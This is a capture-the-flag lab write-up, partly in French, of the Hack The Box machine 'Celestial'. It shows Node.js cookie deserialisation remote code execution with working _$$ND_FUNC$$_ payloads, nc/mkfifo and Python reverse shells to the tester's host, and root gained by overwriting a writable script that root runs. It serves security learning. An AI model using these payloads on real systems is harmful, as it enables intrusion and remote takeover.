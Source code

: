 # HTB - Celestial 10.10.10.85



- Linux 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
- Ubuntu 16.04.1 LTS \n \l

- JS serialisation injection

- Find process with suid and writable command.py



## NMap

```
Port 3000
```

## http://10.10.10.85:3000/  NodeJS
```
Hey Dummy 2 + 2 is 22
```


GET / HTTP/1.1
Host: 10.10.10.85:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"15-iqbh0nIIVq2tZl3LRUnGx4TH3xg"
Cache-Control: max-age=0

eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
Decode Base64
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

{"username":"Admin","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"3"}
eyJ1c2VybmFtZSI6ImFkbWluIiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjMifQ==
Hey admin 3 + 3 is 33

SyntaxError: Unexpected token {
    at /home/sun/server.js:13:29
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/sun/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
    at /home/sun/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)
    at next (/home/sun/node_modules/express/lib/router/index.js:275:10)
    at cookieParser (/home/sun/node_modules/cookie-parser/index.js:70:5)
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)

=>> node module cookie-parser:

##JS deserialisation

Explications : https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
& Mega JS payload


On tente un ping
```
{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('ping 10.10.14.18', function(error, stdout, stderr) { console.log(stdout) }); }()", "username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

Et il arrive !!
```
# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:25:47.573903 IP celestial > kali: ICMP echo request, id 4801, seq 1, length 64
21:25:47.573929 IP kali > celestial: ICMP echo reply, id 4801, seq 1, length 64
21:25:48.569862 IP celestial > kali: ICMP echo request, id 4801, seq 2, length 64
21:25:48.569923 IP kali > celestial: ICMP echo reply, id 4801, seq 2, length 64
21:25:49.570935 IP celestial > kali: ICMP echo request, id 4801, seq 3, length 64
21:25:49.570952 IP kali > celestial: ICMP echo reply, id 4801, seq 3, length 64
```

Payloads qui ne passent pas:
- nc 10.10.14.18 4444 -e /bin/bash

Ca passe : 
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f

{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) }); }()", "username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

=>
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4xOCA0NDQ0ID4vdG1wL2YnLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KTsgfSgpIiwgInVzZXJuYW1lIjoiRHVtbXkiLCJjb3VudHJ5IjoiSWRrIFByb2JhYmx5IFNvbWV3aGVyZSBEdW1iIiwiY2l0eSI6IkxhbWV0b3duIiwibnVtIjoiMiJ9

```
# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.18] from celestial [10.10.10.85] 60842
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

$ cat Do*/user.txt
XXXXXXXXXXXXXXXXXXXXXXXX
```

## System

```
$ uname -a
Linux sun 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

$ cat /etc/issue
Ubuntu 16.04.1 LTS \n \l
```

## Get root


Document\script.py ecrit dans output.txt

```
sun@sun:~$ ls -al output.txt 
-rw-r--r-- 1 root root 21 Sep 18 16:05 output.txt

sun@sun:~$ cat output.txt 
Script is running...

sun@sun:~$ ls -al Documents
total 16
drwxr-xr-x  2 sun sun 4096 Mar  4  2018 .
drwxr-xr-x 21 sun sun 4096 Sep 18 16:06 ..
-rw-rw-r--  1 sun sun   29 Sep 21  2017 script.py
-rw-rw-r--  1 sun sun   33 Sep 21  2017 user.txt
sun@sun:~$ 
sun@sun:~$ cat Documents/script.py 
print "Script is running..."
```

On y met
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > Documents/script.py    
```
```
# nc -lvp 4446
listening on [any] 4446 ...
connect to [10.10.14.18] from celestial [10.10.10.85] 55432
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
```